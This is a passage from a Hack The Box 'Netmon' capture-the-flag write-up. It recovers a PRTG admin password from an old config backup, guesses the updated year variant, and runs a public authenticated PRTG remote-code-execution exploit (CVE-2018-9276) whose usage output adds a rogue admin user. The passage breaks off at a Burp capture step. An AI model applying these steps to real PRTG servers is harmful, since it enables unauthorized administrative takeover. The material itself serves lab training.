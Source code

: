 Downloaded that to my machine.

`PRTG Configuration.old.bak` Found the password.
```
 </dbcredentials>
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```
I tried login again with these creds but still I get `Your login has failed. Please try again!`

After some enumeration I changed it to `PrTg@dmin2019` because the `.bak` file is from `2018` which is old and it worked:


![e5d71a21665c48abbed3d85dcb94ba31.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-netmon/acbed2e387664053a200a0b666300cc4.png)

## Getting shell:

We can now use the exploit we found already.
><https://www.exploit-db.com/exploits/46527>

So according to the exploit, once we authenticated, we need to get those cookies and give it to the script and it will create a new user for us as `pentest`.
```
root@w0lf:~/CTF/HTB/Boxes/Netmon# ./exploit.sh 

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once authenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 

```

I captured the request in Burp:
